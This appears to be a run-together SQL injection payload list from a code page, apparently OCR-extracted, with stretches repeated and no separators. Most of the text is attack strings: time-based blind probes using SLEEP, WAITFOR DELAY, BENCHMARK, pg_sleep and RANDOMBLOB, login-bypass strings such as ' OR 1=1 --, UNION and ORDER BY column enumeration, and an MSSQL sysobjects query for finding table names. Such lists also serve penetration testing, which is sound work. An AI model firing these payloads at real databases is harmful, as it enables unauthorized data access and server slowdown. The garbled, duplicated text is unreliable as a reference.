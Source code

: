 delay '00:00:05'-- waitfor delay '00:00:05'# benchmark(50000000,MD5(1)) benchmark(50000000,MD5(1))-- benchmark(50000000,MD5(1))# or benchmark(50000000,MD5(1)) or benchmark(50000000,MD5(1))-- or benchmark(50000000,MD5(1))# pg_SLEEP(5) pg_SLEEP(5)-- pg_SLEEP(5)# or pg_SLEEP(5) or pg_SLEEP(5)-- or pg_SLEEP(5)# '\" AnD SLEEP(5) AnD SLEEP(5)-- AnD SLEEP(5)# &amp;&amp;SLEEP(5) &amp;&amp;SLEEP(5)-- &amp;&amp;SLEEP(5)# ' AnD SLEEP(5) ANd '1 '&amp;&amp;SLEEP(5)&amp;&amp;'1 ORDER BY SLEEP(5) ORDER BY SLEEP(5)-- ORDER BY SLEEP(5)# (SELECT * FROM (SELECT(SLEEP(5)))ecMj) (SELECT * FROM (SELECT(SLEEP(5)))ecMj)# (SELECT * FROM (SELECT(SLEEP(5)))ecMj)-- +benchmark(3200,SHA1(1))+' + SLEEP(10) + ' RANDOMBLOB(500000000/2) AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) RANDOMBLOB(1000000000/2) AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))) OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))) SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/ ' '' ` `` , " "" / // \ \\ ; ' or " -- or #  ' OR '1 ' OR 1 -- - " OR "" = " " OR 1 = 1 -- - ' OR '' = ' '=' 'LIKE' '=0--+  OR 1=1 ' OR 'x'='x ' AND id IS NULL; -- '''''''''''''UNION SELECT '2 %00 /*…*/  +        addition, concatenate (or space in url) ||        (double pipe) concatenate %        wildcard attribute indicator @variable    local variable @@variable    global variable # Numeric AND 1 AND 0 AND true AND false 1-false 1-true 1*56 -2 1' ORDER BY 1--+ 1' ORDER BY 2--+ 1' ORDER BY 3--+ 1' ORDER BY 1,2--+ 1' ORDER BY 1,2,3--+ 1' GROUP BY 1,2,--+ 1' GROUP BY 1,2,3--+ ' GROUP BY columnnames having 1=1 -- -1' UNION SELECT 1,2,3--+ ' UNION SELECT sum(columnname ) from tablename -- -1 UNION SELECT 1 INTO @,@ -1 UNION SELECT 1 INTO @,@,@ 1 AND (SELECT * FROM Users) = 1     ' AND MID(VERSION(),1,1) = '5'; ' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') -- Finding the table name Time-Based: ,(select * from (select(sleep(10)))a) %2c(select%20*%20from%20(select(sleep(10)))a) ';WAITFOR DELAY '0:0:30'-- Comments: #        Hash comment /*      C-style comment -- -    SQL comment ;%00    Nullbyte `        Backtick sleep(5)# 1 or sleep(5)# " or sleep(5)# ' or sleep(5)# " or sleep(5)=" ' or sleep(5)=' 1) or sleep(5)# ") or sleep(5)=" ') or sleep(5)=' 1)) or sleep(5)# ")) or sleep(5)=" ')) or sleep(5)=' ;waitfor delay '0:0:5'-- );waitfor delay '0:0:5'-- ';waitfor delay '0:0:5'-- ";waitfor delay '0:0:5'-- ');waitfor delay '0:0:5'-- ");waitfor delay '0:0:5'-- ));waitfor delay '0:0:5'-- '));waitfor delay '0:0:5'-- "));waitfor delay '0:0:5'-- benchmark(10000000,MD5(1))# 1 or benchmark(10000000,MD5(1))# " or benchmark(10000000,MD5(1))# ' or benchmark(10000000,MD5(1))# 1) or benchmark(10000000,MD5(1))# ") or benchmark(10000000,MD5(1))# ') or benchmark(10000000,MD5(1))# 1)) or benchmark(10000000,MD5(1))# ")) or benchmark(10000000,MD5(1))# ')) or benchmark(10000000,MD5(1))# pg_sleep(5)-- 1 or pg_sleep(5)-- " or pg_sleep(5)-- ' or pg_sleep(5)-- 1) or pg_sleep(5)-- ") or pg_sleep(5)-- ') or pg_sleep(5)-- 1)) or pg_sleep(5)-- ")) or pg_sleep(5)-- ')) or pg_sleep(5)-- AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'=' AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP) AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)-- AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)# SLEEP(5)# SLEEP(5)-- SLEEP(5)=" SLEEP(5)=' or SLEEP(5) or SLEEP(5)# or SLEEP(5)-- or SLEEP(5)=" or SLEEP(5)=' waitfor delay '00:00:05' waitfor delay '00:00:05'-- waitfor delay '00:00:05'# benchmark(50000000,MD5(1)) benchmark(50000000,MD5(1))-- benchmark(50000000,MD5(1))# or benchmark(50000000,MD5(1)) or benchmark(50000000,MD5(1))-- or benchmark(50000000,MD5(1))# pg_SLEEP(5) pg_SLEEP(5)-- pg_SLEEP(5)# or pg_SLEEP(5) or pg_SLEEP(5)-- or pg_SLEEP(5)# '\" AnD SLEEP(5) AnD SLEEP(5)-- AnD SLEEP(5)# &amp;&amp;SLEEP(5) &amp;&amp;SLEEP(5)-- &amp;&amp;SLEEP(5)# ' AnD SLEEP(5) ANd '1 '&amp;&amp;SLEEP(5)&amp;&amp;'1 ORDER BY SLEEP(5) ORDER BY SLEEP(5)-- ORDER BY SLEEP(5)# (SELECT * FROM (SELECT(SLEEP(5)))ecMj) (SELECT * FROM (SELECT(SLEEP(5)))ecMj)# (SELECT * FROM (SELECT(SLEEP(5)))ecMj)-- +benchmark(3200,SHA1(1))+' + SLEEP(10) + ' RANDOMBLOB(500000000/2) AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) RANDOMBLOB(1000000000/2) AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))) OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))) SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/ ORDER BY SLEEP(5)  ORDER BY 1,SLEEP(5)  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20